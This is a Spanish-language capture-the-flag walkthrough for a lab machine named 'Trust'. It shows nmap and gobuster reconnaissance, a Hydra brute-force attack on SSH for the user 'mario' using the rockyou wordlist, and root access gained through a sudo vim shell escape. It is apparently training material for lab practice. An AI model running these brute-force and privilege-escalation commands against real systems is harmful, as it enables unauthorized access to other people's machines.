 ```yaml
---
description: >-
  ✍️ Autor: El Pingüino de Mario🔍 Dificultad: Muy Fácil  📅 Fecha de creación:
  02/04/2024
---
```


# Trust

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.22.0.2
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/0 (3).png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.22.0.2 -oG allPorts
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

![](<../../.gitbook/assets/1 (3).png>)

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 172.22.0.2
```

para obtener más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/2 (3).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora indagaremos sobre el **servicio HTTP**. Se ingresó la **dirección IP** en el navegador lo que llevó a que la página web sea un formulario de iniciar sesión.

![](<../../.gitbook/assets/3 (3).png>)

Ahora, buscamos directorios con la herramienta **Gobuster** a través del comando:

```bash
gobuster dir -u http://172.22.0.2/ -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt -t 20 -x html,php,txt,js
```

<figure><img src="../../.gitbook/assets/4 (3).png" alt=""><figcaption></figcaption></figure>

Vemos que hay dos directorios con estado **200**, lo que significa que la solicitud realizada por el cliente fue exitosa. Procederemos a investigar más sobre estos directorios.

<figure><img src="../../.gitbook/assets/5 (3).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Con la información obtenida anteriormente, realizamos el comando:

```bash
hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.22.0.2 -t 5
```

Este comando utiliza la herramienta **Hydra** para realizar un ataque de fuerza bruta contra el servicio SSH de una máquina con la IP **172.22.0.2**.

<figure><img src="../../.gitbook/assets/6 (2).png" alt=""><figcaption></figcaption></figure>

Al realizar el ataque de fuerza bruta, descubrimos la contraseña de **mario**. Sabiendo esto, nos conectamos a través de SSH al usuario con el comando:

```bash
ssh mario@172.22.0.2
```

<figure><img src="../../.gitbook/assets/7 (2).png" alt=""><figcaption></figcaption></figure>

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que ejecutamos:

```bash
sudo -l
```

para ver si hay algo que podamos explotar.

![](<../../.gitbook/assets/8 (2).png>)

Observamos que podemos escalar privilegios con **vim** utilizando el comando:

```bash
sudo vim -c ':!/bin/sh'
```

Tras eso, ejecutamos:

```bash
whoami
```

y confirmamos que ya somos **root**.

<figure><img src="../../.gitbook/assets/image (575).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (576).png" alt=""><figcaption></figcaption></figure>

